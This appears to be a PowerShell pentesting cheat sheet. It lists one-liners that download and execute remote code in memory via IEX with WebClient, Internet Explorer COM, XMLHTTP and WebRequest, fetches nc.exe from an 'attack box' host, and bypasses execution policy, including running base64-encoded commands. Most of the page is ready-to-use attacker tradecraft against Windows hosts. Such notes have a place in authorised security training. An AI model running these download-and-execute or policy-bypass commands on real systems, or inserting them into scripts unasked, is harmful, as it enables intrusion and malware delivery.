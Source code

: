 ##### Check version

```powershell $PSVersionTable.PSVersion```

### Downloading Files ###

#### Powershell Fetch Download and Execute ####

```powershell IEX(New-Object Net.WebClient).DownloadString('http://host:port/file')```

##### BITS Transfer

##### Uses idle bandwidth and does not affect bandwidth used by existing applications

##### Does not rely on IE

```powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://host:port/file -Destination C:\```

#### PS >= 3.0 ####

##### IE #####

```$ie = New-Object -ComObject InternetExplorer.Application;$ie.visible=false;$ie.navigate('http://url:port/file');sleep 5;$response=$ie.Document.body.Innerhtml;$ie.quit();iex $response```

##### Heavy memory and performance impact - LAST RESORT

```powershell Invoke-WebRequest -Uri http://[IP Attack box]/nc.exe -OutFile C:\nc.exe```

 *same as...* 

```iex (iwr 'http://url:port/file')```

#### XML ####

```$h = New-Object -ComObject msxml2.xmlhttp;$h.open('GET', 'http://url:port/file', $false);$h.send();iex```

```$h.responsetext```

#### WebRequest ####

```$wr = [System.Net.Webrequest]::Create("http://url:port/file")```

```$r = $wr.GetResponse()```

```IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()```


## General ##

#### Get Help ###

```Get-Help <cmd> ```

```Get-Help <cmd. -Full```

#### Find cmdlets ####

```Get-Command -CoomandType cmdlet```

#### Execution Policy Bypass ####

NOTE: *Not a security measure*

```powershell -ExecutionPolicy bypass```

```powershell -c <cmd>```

```powershell -encodedcommand <base64_command>```

```$env:PSExecutionPolicyPreference="bypass"```

#### Import Modules ####

```Import-Module <path>```

```Get-Command -Module <name>```

